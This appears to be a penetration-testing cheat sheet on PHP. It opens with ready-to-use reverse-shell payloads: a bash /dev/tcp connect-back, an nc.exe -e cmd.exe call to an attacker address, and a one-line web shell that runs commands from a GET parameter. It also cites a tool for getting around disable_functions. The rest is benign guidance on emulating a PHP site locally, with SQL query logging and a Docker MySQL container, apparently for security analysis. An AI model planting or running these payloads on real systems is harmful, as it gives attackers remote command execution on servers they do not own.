 # PHP

All things PHP

```php
# Reverse shell payload
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'");?>
<?php exec("C:\ProgramData\System\nc.exe $IP $PORT -e cmd.exe");?>
<?=`$_GET[0]`?>
```

## Capabilities

### dfunc-bypasser

If access to phpinfo, but command execution not working, check `disable_functions`, and run the file/url against [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser)

```powershell
# Check a phpinfo.php file
python2 dfunc-bypasser/dfunc-bypasser.py --file phpinfo.ph

# Check a phpinfo url
python2 dfunc-bypasser/dfunc-bypasser.py --url http://$TARGET/phpinfo.php
```

### Web Server

Emulate a web server given the source code via the following steps

Change database calls within the source code by adding the following function to `db_utils.php`:

```php
function print_sql_query($stmt, $params = []) {
	$query = $stmt->queryString;
	foreach ($params as $key => $value) {
		$query = str_replace(":$key", "'" . $value . "'", $query);
	}
	file_put_contents('debug.log', $query . "\n", FILE_APPEND);
}
```

Then comment out the database calls and add the print function below it:

```php
$stmt->execute($params);
```

Becomes

```php
// $stmt -> execute($params);
print_sql_query($stmt, $params);
```

This will allow the website to function without a database, and printing all database calls to a newly created file `debug.log`.

Continuously view `debug.log` with the command:

```powershell
tail -f debug.log
```

Note: You can add the code:

```php
file_put_contents('debug.log', $any_variable . "\n", FILE_APPEND);
```

To any part of the code now to output additional debug information

### Database

To still simulate the database connection perform the following steps:

Install Docker

```bash
sudo apt-get install docker.io
```

Start Docker

```bash
sudo systemctl start docker
sudo systemctl enable docker
```

Verify installation

```bash
sudo docker --version
```

Run MySQL in Docker

```bash
sudo docker pull mysql
```

Start MySQL container

```bash
sudo docker run --name mysql-db -e MYSQL_ROOT_PASSWORD=myrootpassword -e MYSQL_DATABASE=clicker -e MYSQL_USER=clicker_db_user -e MYSQL_PASSWORD=clicker_db_password -p 3306:3306 -d mysql
```

Where `MYSQL_DATABASE`, `MYSQL_USER`, and `MYSQL_PASSWORD` are changed to their proper values based on the `db_utils.php` file.

Check container status

```bash
sudo docker ps
```

Once done analyzing, tear down with the commands:

```bash
sudo docker stop mysql-db
sudo docker rm mysql-db
```

### Execution

Now you can run the website with the following command:

```powershell
php -S localhost:8000
```
